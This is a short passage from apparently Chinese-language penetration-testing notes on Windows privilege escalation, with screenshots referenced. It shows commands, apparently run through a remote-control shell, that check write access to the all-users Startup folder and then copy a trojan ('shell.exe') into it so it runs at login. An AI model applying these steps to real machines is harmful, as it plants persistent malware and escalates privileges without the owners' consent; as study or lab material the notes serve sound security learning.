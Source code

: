 ![image-20241015235737904](操作系统提权/image-20241015235737904.png)	

```
查询文件夹权限，发现test用户具有RW权限。
shell accesschk64.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

![image-20241016000042684](操作系统提权/image-20241016000042684.png)	

```
复制木马文件到启动项
shell copy shell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```
